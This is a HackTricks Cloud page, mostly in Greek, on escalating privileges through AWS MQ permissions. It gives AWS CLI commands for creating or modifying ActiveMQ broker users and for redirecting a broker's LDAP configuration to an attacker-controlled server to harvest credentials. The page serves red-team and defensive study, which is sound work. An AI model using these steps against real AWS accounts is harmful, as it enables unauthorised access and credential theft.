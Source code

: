 # AWS - MQ Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MQ

Για περισσότερες πληροφορίες σχετικά με το MQ, ελέγξτε:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

Με αυτές τις άδειες μπορείτε να **δημιουργήσετε έναν νέο χρήστη σε έναν broker ActimeMQ** (αυτό δεν λειτουργεί σε RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες πληροφορίες μέσω του ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Με αυτές τις άδειες μπορείτε να **δημιουργήσετε έναν νέο χρήστη σε έναν ActimeMQ broker** (αυτό δεν λειτουργεί στο RabbitMQ):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες πληροφορίες μέσω του ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Εάν ένας broker χρησιμοποιεί **LDAP** για εξουσιοδότηση με το **ActiveMQ**. Είναι δυνατόν να **αλλάξει** την **διαμόρφωση** του διακομιστή LDAP που χρησιμοποιείται σε **έναν που ελέγχεται από τον επιτιθέμενο**. Με αυτόν τον τρόπο, ο επιτιθέμενος θα είναι σε θέση να **κλέψει όλα τα διαπιστευτήρια που αποστέλλονται μέσω LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Αν μπορούσατε με κάποιο τρόπο να βρείτε τα αρχικά διαπιστευτήρια που χρησιμοποιήθηκαν από το ActiveMQ, θα μπορούσατε να εκτελέσετε μια MitM, να κλέψετε τα διαπιστευτήρια, να τα χρησιμοποιήσετε στον αρχικό διακομιστή και να στείλετε την απάντηση (ίσως απλά επαναχρησιμοποιώντας τα κλεμμένα διαπιστευτήρια να μπορούσατε να το κάνετε αυτό).

**Πιθανές Επιπτώσεις:** Κλοπή διαπιστευτηρίων ActiveMQ

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
